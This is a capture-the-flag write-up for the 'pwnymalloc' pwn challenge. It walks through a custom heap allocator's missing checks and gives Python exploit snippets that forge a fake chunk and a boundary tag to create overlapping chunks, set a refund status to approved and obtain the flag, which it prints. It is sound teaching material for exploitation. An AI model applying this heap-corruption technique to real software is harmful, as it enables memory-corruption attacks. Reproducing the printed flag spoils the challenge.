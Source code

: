 # pwnymalloc (pwn, 461 points, 65 solves)

## Description

![Description](images/description.png)

Files: [alloc.c](files/alloc.c) [alloc.h](files/alloc.h) [main.c](files/main.c) [Makefile](files/Makefile) [chal](files/chal)

## Overview

We are given 5 files: 3 source files, the `Makefile` to build the binary and the binary that will be run remotely.

The service is a simple command line application to "handle" complaints and refunds. We can submit a complaint, view the submitted complaints (which is not actually implemented), request a refund and check the refund status.

### Reversing the application

This is pretty easy, since we are given the sources.

`handle_compliant` should save our complaints, but actually reads it in a fixed size allocated buffer and immediately deletes (frees) it, mocking us with a sarcastic message.

`handle_refund_request` is used to save our refund requests. The requests are stored in the heap, in fixed size structures, while the pointers to those structures are stored in a global array with a fixed max size (which is properly checked). The refund structure is:
```c
typedef struct refund_request {
    refund_status_t status;  // either DENIED (default) or APPROVED
    int amount;  // user provided requested refund amount
    char reason[0x80];  // user provided requested refund reason
} refund_request_t;
```

`handle_refund_status` takes a refund request and checks if its status is `APPROVED`. If it is, it prints the flag by calling `print_flag`, otherwise, it prints a message saying that the request has been denied.


### Custom allocator

This is a pretty simple application, but it doesn't seem vulnerable, it creates refund requests with status `DENIED` and we have to modify it to `APRROVED` to get the flag, but there are no ways to do it. Furthermore, there are no obvious vulnerability to overwrite that field or ways to corrupt the heap and achieve the same result. But there is a catch, the allocator is not the standard glibc one, it is a custom one defined in the `alloc.c` file, so the vulnerability must be in the allocator implementation.

It is time to understand how this allocator works and how we can attack it.

In the beginning of `alloc.c` we can see useful declarations to get a high level understanding on how this heap works.

`chunk_meta_t` is the chunk metadata, pretty similar to the libc one:
```c
typedef struct chunk_meta {
    size_t size;
    struct chunk_meta *next; // only for free blocks
    struct chunk_meta *prev; // only for free blocks
} chunk_meta_t;
```
There is a `btag` which I suppose stands for backward tag, which contains only a size, maybe is the same concept of the libc's `prev_size` field. Macros are pretty much self-explanatory and finally we have the global variables. Those are also self-explanatory, but tell us that the algorithm saves the heap border and, most importantly, that we have a freelist (`static chunk_ptr free_list = NULL;`), so, like libc's allocator, free chunks are stored in a double linked list (we know it is double linked thanks to the `chunk_meta` definition).

Let's look at the malloc (`pwnymalloc`). The needed size for a chunk is the requested size, plus the space required for the size metadata (again, just like libc's chunks). We don't have fancy optimizations like tcache or fastbins, all the chunks are stored in a global linked list. So we first iterate the freelist to see if we have a chunk big enough to satisfy the request, if we don't, we simply enlarge the heap with the `sbrk` syscall, set the chunk size and `INUSE` flag in the metadata, and return the old `heap_end` value (plus the metadata offset), which will now contains the new chunk. If we find a suitable chunk, we use it and we also try to split it to optimize for space. We don't need to worry about the split mechanism, since it is not needed for the exploit, but it is pretty much identical to the libc's one (at least for the high level logic, even if it is much simpler).

Moving on to the free (`pwnyfree`) function. The "lucky" thing is that there are pretty much no checks whatsoever, we just check if the address alignment is correct and if the chunk is marked as `INUSE`. To free the chunk, we set it as `FREE` in the metadata, and set the `btag`. The `btag` is the size of the chunk, but placed at the end of the chunk itself; it is used effectively as libc `prev_size` for consolidating chunks. Finally we call `coalesce` on the freed chunk to try to merge it with adjacent free chunks. The `coalesce` function gets the previous and next chunk and if they are free it merges them with the just-freed chunk.


### Vulnerability

The vulnerability is in the `btag`. It is not considered in the size of the chunk and there is no way to check if the previous chunk is free without looking at the `btag` itself, thus one chunk can control its `btag` and misalign the heap. With this in mind, you can consolidate a chunk with a carefully placed fake chunk and obtain overlapping chunks. From there it is trivial to set a refund status to `ACCEPTED` and get the flag.


### Exploit

The idea is to create two chunks: the first will contain a fake chunk metadata, the second one will have the `btag` set in order to make the next chunk to consolidate with the fake chunk. Then we will call the `handle_complaint` function, which will alloc and free a chunk, triggering the consolidation with the fake chunk. The fake chunk will overlap the second chunk which can get the `status` overwritten.

We first define two helper functions:
```python
def alloc(amt, buf):
    r.sendlineafter(b"> ", b"3")
    r.sendlineafter(b"\n", b"%d" % amt)
    r.sendafter(b"\n", buf)

def comply(buf):
    r.sendlineafter(b"> ", b"1")
    r.sendlineafter(b"\n", buf)
```

Then we create the two fake chunks:
```python
# 0x90 - 0x40 is the size needed to avoid calling `split` when we will allocate the overlapping refund request
# The reason is that `split` will call consolidate on a part of heap which is not initialized and will crash
# We can try to fix the heap to make it work with other sizes, but this is the easiest things to do
fake_chunk =
    p64(0x90 - 0x50) # size | FREE (0)
    + p64(0x0) * 2   # next, prev set to NULL to avoid troubles with the `free_list`
chunk1 = b"A" * 0x60 + fake_chunk
fake_btag = p64(0xb0)
chunk2 = b"A" * 0x78 + fake_btag
alloc(0x1337, chunk1 + b"\n")
alloc(0x1338, chunk2[:-1])
```

This will create the following heap layout:
```
0x555555559000: 0x0000000000000091      0x0000133700000000  chunk1
0x555555559010: 0x4141414141414141      0x4141414141414141
0x555555559020: 0x4141414141414141      0x4141414141414141
0x555555559030: 0x4141414141414141      0x4141414141414141
0x555555559040: 0x4141414141414141      0x4141414141414141
0x555555559050: 0x4141414141414141      0x4141414141414141
0x555555559060: 0x4141414141414141      0x4141414141414141
0x555555559070: 0x0000000000000040      0x0000000000000000  fake chunk
0x555555559080: 0x0000000000000000      0x000000000000000a
0x555555559090: 0x0000000000000091      0x0000133800000000  chunk2
0x5555555590a0: 0x4141414141414141      0x4141414141414141
0x5555555590b0: 0x4141414141414141      0x4141414141414141
0x5555555590c0: 0x4141414141414141      0x4141414141414141
0x5555555590d0: 0x4141414141414141      0x4141414141414141
0x5555555590e0: 0x4141414141414141      0x4141414141414141
0x5555555590f0: 0x4141414141414141      0x4141414141414141
0x555555559100: 0x4141414141414141      0x4141414141414141
0x555555559110: 0x4141414141414141      0x00000000000000b0  fake btag
0x555555559120: 0x0000000000000000      0x0000000000000000  heap_end (next chunk will start here)
```

Then we create a random complaint to call alloc and free:
```python
comply(b"AAAA")
```
After this, the heap will look like this:
```
0x555555559000: 0x0000000000000091      0x0000133700000000  chunk1
0x555555559010: 0x4141414141414141      0x4141414141414141
0x555555559020: 0x4141414141414141      0x4141414141414141
0x555555559030: 0x4141414141414141      0x4141414141414141
0x555555559040: 0x4141414141414141      0x4141414141414141
0x555555559050: 0x4141414141414141      0x4141414141414141
0x555555559060: 0x4141414141414141      0x4141414141414141
0x555555559070: 0x0000000000000090      0x0000000000000000  fake chunk / free list head
0x555555559080: 0x0000000000000000      0x000000000000000a
0x555555559090: 0x0000000000000091      0x0000133800000000  chunk 2
0x5555555590a0: 0x4141414141414141      0x4141414141414141
0x5555555590b0: 0x4141414141414141      0x4141414141414141
0x5555555590c0: 0x4141414141414141      0x4141414141414141
0x5555555590d0: 0x4141414141414141      0x4141414141414141
0x5555555590e0: 0x4141414141414141      0x4141414141414141
0x5555555590f0: 0x4141414141414141      0x0000000000000090
0x555555559100: 0x4141414141414141      0x4141414141414141
0x555555559110: 0x4141414141414141      0x00000000000000b0
0x555555559120: 0x0000000000000050      0x0000000000000000  free complaint
0x555555559130: 0x0000000000000000      0x0000000000000000
0x555555559140: 0x0000000000000000      0x0000000000000000
0x555555559150: 0x0000000000000000      0x0000000000000000
0x555555559160: 0x0000000000000000      0x0000000000000050
0x555555559170: 0x0000000000000000      0x0000000000000000  heap_end
```
We can confirm that the exploit worked by printing the value of `free_list`
```
> p free_list
$3 = (chunk_ptr) 0x555555559070
```
Which is exactly the address of the fake chunk.

Now we just have to create a new refund request to overwrite the `status` of the second request.
```python
ACCEPTED = 1
status_and_value = p64(ACCEPTED | (0x1339 << 32))
overlapping_chunk = b"A" * 0x18 + status_and_value
alloc(0x1339, overlapping_chunk + b"\n")
```

And finally call `handle_refund_status`, asking for the second chunk:
```python
r.sendlineafter(b"> ", b"4")
r.sendlineafter(b"\n", b"1")
```
which will print the flag.

[full exploit](exploit.py)


### Flag

`uiuctf{the_memory_train_went_off_the_tracks}`
